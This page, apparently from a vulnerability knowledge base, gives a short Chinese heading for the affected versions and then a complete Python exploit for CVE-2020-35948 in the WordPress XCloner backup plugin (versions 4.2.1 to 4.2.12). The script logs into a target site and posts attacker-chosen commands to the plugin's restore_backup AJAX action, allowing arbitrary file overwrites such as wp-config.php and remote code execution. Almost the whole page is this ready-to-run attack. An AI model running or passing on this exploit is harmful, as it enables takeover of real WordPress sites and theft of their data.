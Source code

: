 <languages /> <translate>

漏洞影響
--------

</translate> Version: 4.2.1 - 4.2.12

EXP
---

    # Exploit Title: Wordpress Plugin XCloner 4.2.12 - Remote Code Execution (Authenticated)
    # Date 30.06.2021
    # Exploit Author: Ron Jost (Hacker5preme)
    # Vendor Homepage: https://www.xcloner.com/
    # Software Link: https://downloads.wordpress.org/plugin/xcloner-backup-and-restore.4.2.12.zip
    # Version: 4.2.1 - 4.2.12
    # Tested on: Ubuntu 18.04
    # CVE: CVE-2020-35948
    # CWE: CWE-732
    # Documentation: https://github.com/Hacker5preme/Exploits/blob/main/CVE-2020-35948-Exploit/README.md

    '''
    Description:
    An issue was discovered in the XCloner Backup and Restore plugin before 4.2.13 for WordPress. It gave authenticated attackers the ability to modify arbitrary files,
    including PHP files. Doing so would allow an attacker to achieve remote code execution. The xcloner_restore.php write_file_action could overwrite wp-config.php,
    for example. Alternatively, an attacker could create an exploit chain to obtain a database dump.
    '''


    '''
    Banner:
    '''
    banner = """


      #####  #     # #######        #####    ###    #####    ###          #####  #######  #####  #        #####
     #     # #     # #             #     #  #   #  #     #  #   #        #     # #       #     # #    #  #     #
     #       #     # #                   # #     #       # #     #             # #       #     # #    #  #     #
     #       #     # #####   #####  #####  #     #  #####  #     # #####  #####  ######   ###### #    #   #####
     #        #   #  #             #       #     # #       #     #             #       #       # ####### #     #
     #     #   # #   #             #        #   #  #        #   #        #     # #     # #     #      #  #     #
      #####     #    #######       #######   ###   #######   ###          #####   #####   #####       #   #####



                                                                    by @Hacker5preme
    """
    print(banner)


    '''
    Import required modules:
    '''
    import requests
    import argparse


    '''
    User-Input:
    '''
    my_parser = argparse.ArgumentParser(description='Wordpress Plugin XCloner RCE (Authenticated)')
    my_parser.add_argument('-T', '--IP', type=str)
    my_parser.add_argument('-P', '--PORT', type=str)
    my_parser.add_argument('-U', '--PATH', type=str)
    my_parser.add_argument('-u', '--USERNAME', type=str)
    my_parser.add_argument('-p', '--PASSWORD', type=str)
    args = my_parser.parse_args()
    target_ip = args.IP
    target_port = args.PORT
    wp_path = args.PATH
    username = args.USERNAME
    password = args.PASSWORD
    print('')
    ajax_cmd = input('[*] Ajax Command to execute: ')

    '''
    Authentication:
    '''
    session = requests.Session()
    auth_url = 'http://' + target_ip + ':' + target_port + wp_path + 'wp-login.php'

    # Header:
    header = {
        'Host': target_ip,
        'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'de,en-US;q=0.7,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Origin': 'http://' + target_ip,
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1'
    }

    # Body:
    body = {
        'log':  username,
        'pwd': password,
        'wp-submit': 'Log In',
        'testcookie': '1'
    }

    # Authenticate:
    print('')
    auth = session.post(auth_url, headers=header, data=body)
    auth_header= auth.headers['Set-Cookie']
    if 'wordpress_logged_in' in auth_header:
        print('[+] Authentication successfull !')
    else:
        print('[-] Authentication failed !')
        exit()


    '''
    Exploit:
    '''
    url_exploit = "http://192.168.0.38:80/wordpress//wp-admin/admin-ajax.php?action=restore_backup"

    header = {
        "Accept": "*/*",
        "Content-Type": "multipart/form-data; boundary=------------------------08425016980d7357",
        "Connection": "close"
    }

    # Body:
    body = "--------------------------08425016980d7357\r\nContent-Disposition: form-data; name=\"xcloner_action\"\r\n\r\n%s\r\n--------------------------08425016980d7357--\r\n" % (ajax_cmd)

    exploit = session.post(url_exploit, headers=header, data=body)
    print('')
    print(exploit.text)
    print('')